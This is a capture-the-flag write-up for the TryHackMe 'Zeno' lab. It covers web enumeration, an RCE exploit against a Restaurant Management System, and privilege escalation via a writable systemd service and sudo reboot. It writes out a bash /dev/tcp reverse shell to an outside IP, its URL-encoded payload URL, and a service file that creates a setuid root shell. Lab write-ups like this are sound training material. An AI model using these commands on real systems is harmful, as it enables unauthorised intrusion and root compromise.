THM: Zeno
Enumeration
Nmap

Website Enmueration
Browser

It seems the site is in development. Lets enumerate further.
Dirsearch

We found a new directory named rms.
Lets enumerate further.
Browser

We found a fully fleged RMS (Restaurant Management System)
Now, we clicked on Administrator & landed on a login page. But we do not have any credentials.

We created an account, logged in and viewed the website but no initial entry was found.
Foothold
However, upon searching for “Restaurant Management System” in searchsploit we found that it might have RCE vulnerability.

Lets get the python file & run it.

Upon inspecting the exploit, we find that a cmd parameter is passed in the shell.php which can be later called using shell.php?cmd=xxxx
I tried to put an enitre php reverse shell in the between the <?php & ?>. But it didn't work due to encoding issue. We will continue with the above.
Note: We have removed the proxy part from the downloaded exploit to make it work as my environment do not have proxy.
Running the exploit.

Next, we will use the URL provided with cmd parameter to get RCE.

Thus, we have RCE on the server.. Lets get a reverse shell using bash.
We take a bash reverse shell & send it to cmd parameter after encoding it properly.
/bin/bash -i >& /dev/tcp/10.17.5.85/9000 0>&1
We encoded it with online URLEncoder (https://www.urlencoder.org/)
%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.17.5.85%2F9000%200%3E%261
Final Payload:
http://10.10.148.125:12340/rms/images/reverse-shell.php?cmd=%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.17.5.85%2F9000%200%3E%261

Lateral Movement

We enumerated the system for lateral movement. We now know there is a user named edward
We found a secret-share in /mnt but its empty
May be something was mounted which is removed now. We checked the /etc/fstab file & found a commented mount string containing credentials for user zeno

We use the same password for user edward in SSH and we were successful. The user flag was found in the home directory of the user.

Privilege Escalation
We checked for SUDO permissions and found the Edward user has SUDO permission over REBOOT
This Privilege Escalation of Reboot with sudo is not avaialable in GTFObins. We searched online & found a way.
The concept is as follows:
Ref: https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-reboot-privilege-escalation/
We will find a service that is writabel by our user edward.
Then we will modify the service to run a root command (say setting a suid to a bash file). Then make necessary changes in the service so that it runs at startup.
Then we reboot the system with SUDO to run our command as the service will be run by root after reboot.
find / -writable -name "*.service" 2>/dev/null

As we can see, user edward has write access to the zeno-monitoring service.
We modify the service as follows:
# /etc/systemd/systm/example.service
[Unit]
Description=Zeno monitoring
[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'cp /bin/bash /home/edward/bash; chmod +xs /home/edward/bash'
[Install]
WantedBy=multi-user.target
Now, we run the reboot command with sudo. After the reboot the user's home directory would contain a setuid set bash binary.

We wait for the system to be up again & SSH to edward user to see the results.

We have root access. We got the root flag as shown above.
Thanks !!